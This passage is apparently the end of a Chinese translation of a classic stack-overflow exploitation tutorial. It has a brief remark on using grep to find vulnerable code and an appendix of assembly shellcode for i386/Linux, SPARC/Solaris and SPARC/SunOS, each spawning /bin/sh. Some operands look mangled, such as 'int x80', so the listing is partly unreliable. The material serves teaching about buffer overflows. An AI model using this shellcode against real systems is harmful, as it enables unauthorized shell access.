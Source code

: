 
由此可见, `grep(1)`是一个很好的工具命令(帮助你找到程序中可能有的漏洞). 自由操作系统及其工具的源码是可读的. 当你意识到其实很多商业操作系统工具都和自由软件有着相同的源码时,剩下的事情就简单了! :-)



## 附录 A - 不同操作系统/体系结构的shellcode

i386/Linux

```
jmp 0x1f
popl %esi
movl %esi,0x8(%esi)
xorl %eax,%eax
movb %eax,0x7(%esi)
movl %eax,0xc(%esi)
movb xb,%al
movl %esi,%ebx
leal 0x8(%esi),%ecx
leal 0xc(%esi),%edx
int x80
xorl %ebx,%ebx
movl %ebx,%eax
inc %eax
int x80
call -0x24
.string \"/bin/sh\"
```

SPARC/Solaris

```
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
ta 8
xor %o7, %o7, %o0
mov 1, %g1
ta 8
```

SPARC/SunOS

```
sethi 0xbd89a, %l6
or %l6, 0x16e, %l6
sethi 0xbdcda, %l7
and %sp, %sp, %o0
add %sp, 8, %o1
xor %o2, %o2, %o2
add %sp, 16, %sp
std %l6, [%sp - 16]
st %sp, [%sp - 8]
st %g0, [%sp - 4]
mov 0x3b, %g1
mov -0x1, %l5
ta %l5 + 1
xor %o7, %o7, %o0
mov 1, %g1
```